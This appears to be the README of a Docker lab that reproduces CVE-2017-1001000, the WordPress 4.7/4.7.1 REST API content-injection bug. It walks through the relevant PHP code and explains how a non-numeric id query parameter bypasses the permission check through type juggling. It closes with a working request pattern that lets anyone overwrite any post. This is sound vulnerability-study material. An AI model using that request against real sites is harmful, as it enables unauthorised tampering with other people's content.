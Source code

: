 # docker-wordpress-content-injection

https://www.cvedetails.com/cve/CVE-2017-1001000/

## Install

```bash
docker-compose up
# In another terminal
./load_db.sh
```

* Open [http://127.0.0.1:8080/wp-admin/index.php](http://127.0.0.1:8080/wp-admin/index.php)
* Check Wordpress version (should be 4.7 or 4.7.1): W (top left) > About Wordpress
* Play with the API using the scripts `get_posts.sh` and `create_post.sh`

# Exploit

The requests are handled in `wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php`
[line 80](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L80).

The route needs a post id in the url:

```bash
./get_post.sh
```

If the id is not numeric, the API returns an error because the url does not match the regex:

```bash
./get_post_non_numeric.sh
```

If a query param `id` is specified, its value overrides the one in the url body:

```bash
./get_post_query_param.sh
# The obtained id is 11 and not 10
```

**But if the query param id is not numeric, no errors are raised:**

```bash
./get_post_query_param_non_numeric.sh
```

Now, let's look at the route to [update a post](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93):

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93

register_rest_route( $this->namespace, '/' . $this->rest_base . '/(?P<id>[\d]+)', array(
    // ... 
    array(
        'methods'             => WP_REST_Server::EDITABLE,
        'callback'            => array( $this, 'update_item' ),
        'permission_callback' => array( $this, 'update_item_permissions_check' ),
        'args'                => $this->get_endpoint_args_for_item_schema( WP_REST_Server::EDITABLE ),
    ),
    // ...
) );
```

Before performing the update, the function [`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item_permissions_check`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589)
is called:

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589

public function update_item_permissions_check( $request ) {
    $post = get_post( $request['id'] );
    $post_type = get_post_type_object( $this->post_type );
    if ( $post && ! $this->check_update_permission( $post ) ) {
        return new WP_Error( 'rest_cannot_edit', __( 'Sorry, you are not allowed to edit this post.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['author'] ) && get_current_user_id() !== $request['author'] && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_edit_others', __( 'Sorry, you are not allowed to update posts as this user.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['sticky'] ) && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_assign_sticky', __( 'Sorry, you are not allowed to make posts sticky.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! $this->check_assign_terms_permission( $request ) ) {
        return new WP_Error( 'rest_cannot_assign_term', __( 'Sorry, you are not allowed to assign the provided terms.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    return true;
}
```

**Surprinsingly, if `$post` is null, the functions does not return an error.** And,
as we saw above, with a request such as
`POST http://127.0.0.1:8080/wp-json/wp/v2/posts/10?id=11ABC` the function will be
called with `$request['id'] = "11ABC"` and will call [`wp-includes/post.php:get_post`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/post.php#L515):

```php
// wp-includes/post.php#L515

function get_post( $post = null, $output = OBJECT, $filter = 'raw' ) {
	if ( empty( $post ) && isset( $GLOBALS['post'] ) )
		$post = $GLOBALS['post'];
	if ( $post instanceof WP_Post ) {
		$_post = $post;
	} elseif ( is_object( $post ) ) {
		if ( empty( $post->filter ) ) {
			$_post = sanitize_post( $post, 'raw' );
			$_post = new WP_Post( $_post );
		} elseif ( 'raw' == $post->filter ) {
			$_post = new WP_Post( $post );
		} else {
			$_post = WP_Post::get_instance( $post->ID );
		}
	} else {
		$_post = WP_Post::get_instance( $post );
	}
	if ( ! $_post )
		return null;
	$_post = $_post->filter( $filter );
	if ( $output == ARRAY_A )
		return $_post->to_array();
	elseif ( $output == ARRAY_N )
		return array_values( $_post->to_array() );
	return $_post;
}
```

`$post` will be a string (`"11ABC"`) so we will execute the follow line:

```php
// wp-includes/post.php#L531

$_post = WP_Post::get_instance( $post );
```

But [`wp-includes/class-wp-post.php:WP_Post::get_instance`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/class-wp-post.php#L210)
will return `false` as `$post_id` is not numeric:

```php
// wp-includes/class-wp-post.php#L210

public static function get_instance( $post_id ) {
    global $wpdb;
    if ( ! is_numeric( $post_id ) || $post_id != floor( $post_id ) || ! $post_id ) {
        return false;
    }
    // ...
}
```

Then `get_post` will return `null`:

```php
// wp-includes/post.php#L534

if ( ! $_post )
    return null;
```

So the permission check will pass. The function
[`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L622)
will be called with `$request['id'] = "11ABC"`:

```php
public function update_item( $request ) {
    $id   = (int) $request['id'];
    $post = get_post( $id );
    if ( empty( $id ) || empty( $post->ID ) || $this->post_type !== $post->post_type ) {
        return new WP_Error( 'rest_post_invalid_id', __( 'Invalid post ID.' ), array( 'status' => 404 ) );
    }
    // ...
}
```

But, here, the function `get_post` is called **with the id cast as an integer**. Due
to [PHP's type-juggling](http://php.net/manual/en/language.types.type-juggling.php),
the variable `$id` will be equal to `11` (`(int)"11ABC" === 11`). So `$post` won't
be `null` and we won't enter the `if`. **Because we have already
passed the permission check step**, Wordpress will update the post with id `11`
even if it belongs to another user.

**To conclude, it is possible for anyone to update any post of id `N` with a request such
as `POST /wp-json/wp/v2/posts/1984?id=N_then_non_numeric_chars`.**
